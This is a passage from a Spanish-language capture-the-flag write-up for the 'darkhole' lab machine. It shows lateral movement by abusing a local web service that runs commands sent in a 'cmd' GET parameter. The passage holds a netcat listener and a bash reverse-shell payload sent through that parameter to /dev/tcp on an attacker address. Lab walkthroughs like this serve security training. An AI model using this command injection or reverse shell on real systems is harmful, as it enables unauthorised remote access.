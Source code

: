 ```bash
jehad@darkhole:~$ id
uid=1001(jehad) gid=1001(jehad) groups=1001(jehad)
jehad@darkhole:~$
```

Si enumeramos el historial  del usuario podemos observar que hace unas peticiones web a un puerto local --> 9999  **pasándole un comando por GET al parámetro cmd**

```bash
jehad@darkhole:~$ head .bash_history 
clear
ls -la
cat id_rsa
clear
netstat -tulpn | grep LISTEN
ssh -L 127.0.0.1:9999:192.168.135.129:9999 jehad@192.168.135.129
curl http://localhost:9999
curl "http://localhost:999/?cmd=id" 
curl "http://localhost:9999/?cmd=id" 
curl http://localhost:9999/
```

Al tratar de hacer esas peticiones podemos ver que se están ejecutando como otro usuario del sistema **(losy)**.

```bash
jehad@darkhole:~$ curl "http://127.0.0.1:9999/?cmd=id"
Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
uid=1002(losy) gid=1002(losy) groups=1002(losy)
```


Vamos a tratar de escalar privilegios y conseguir una shell como este usuario.
Para ello nos pondremos a la escucha con netcat por el puerto 443 en nuestra máquina local.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
```

Y ahora ejecutaremos el siguiente comando en la máquina víctima:

```bash
jehad@darkhole:~$ curl -G http://127.0.0.1:9999/ --data-urlencode "cmd= bash -c 'bash -i >& /dev/tcp/192.168.1.42/443 0>&1'"
```

Si **revisamos nuestro listener** veremos que hemos obtenido una **revshell**.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
192.168.1.83: inverse host lookup failed: Unknown host
connect to [192.168.1.42] from (UNKNOWN) [192.168.1.83] 37822
bash: cannot set terminal process group (1165): Inappropriate ioctl for device
bash: no job control in this shell
losy@darkhole:/opt/web$ id
id
uid=1002(losy) gid=1002(losy) groups=1002(losy)
losy@darkhole:/opt/web$
```
